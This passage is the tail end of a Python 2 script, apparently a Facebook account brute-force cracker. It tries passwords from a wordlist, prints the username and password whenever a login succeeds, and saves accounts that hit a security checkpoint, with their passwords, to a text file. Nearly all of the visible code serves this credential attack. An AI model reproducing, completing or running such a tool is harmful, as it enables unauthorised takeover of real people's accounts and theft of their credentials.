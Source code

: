                         dapat.close()

                        print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'

                        print 52 * '\x1b[1;97m\xe2\x95\x90'

                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email

                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw

                        keluar()

                    else:

                        if 'www.facebook.com' in mpsh['error_msg']:

                            ceks = open('Brutecekpoint.txt', 'w')

                            ceks.write(email + ' | ' + pw + '\n')

                            ceks.close()

                            print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'

                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"

                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'

                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email

                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw

                            keluar()

                except requests.exceptions.ConnectionError:

                    print '\x1b[1;91m[!] Connection Error'

                    time.sleep(1)

        except IOError:

            print '\x1b[1;91m[!] File not found...'

            print """\n\x1b[1;91m[!] \x1b[1;92mLooks like you don't have a wordlist"""

            super()

if __name__ == '__main__':

	login()
